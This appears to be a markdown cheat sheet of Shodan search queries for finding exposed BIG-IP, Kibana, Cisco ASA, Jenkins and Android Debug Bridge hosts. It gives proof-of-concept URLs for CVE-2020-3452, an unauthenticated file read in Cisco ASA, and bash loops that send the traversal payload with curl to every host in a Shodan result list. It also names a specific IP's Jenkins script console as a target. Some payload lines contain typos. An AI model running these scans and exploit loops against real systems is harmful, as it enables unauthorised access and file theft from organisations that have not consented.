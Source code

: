 
###
```bash
http.favicon.hash:-335242539 "3992" -BIGIP
```

RCE prompt for shodan.io
### kibana content-lenght:217

---

### '''File read vuln +CSCOE+, CISCO ASA'''  search on shodan.io

Here is POC of CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.

For example to read "/+CSCOE+/portal_inc.lua" file.

[POC #1] 
``` (https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../) ```

[POC #2]
```(https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua) ```

---
---

### Shodan

```bash
shodan search Cisco ASA --fields ip_str --separator " " | awk '{print $1}'
```

```bash
while read host; do curl -s -k "https://$host/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSC0E%2b/portal_inc.lua&default-language&lang=…/"; done < <(cat microsoftvpn.json | awk '{print $1}')
```

```bash
cat microsoftvpn.json | awk '{print $1}' | while read host; do curl -s -k "https://$host/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSC0E%2b/portal_inc.lua&default-language&lang=../"; done
```

---

### html:"Dashboard Jenkins" http.component:"jenkins" put on -SHODAN 

[Reference](https://medium.com/@awezkagdi.ak/remote-code-execution-a-story-of-simple-rce-on-jenkins-instance-4f01ea098269)

---

### "Andorid Debug Bridge" "Device" port:5555   

---

### "X-Jenkins" "Set-Cookie: JSESSIONID" http.title:"Dashboard" 200 OK put on shodan

[Script] ```(https://34.93.208.164/script) ```


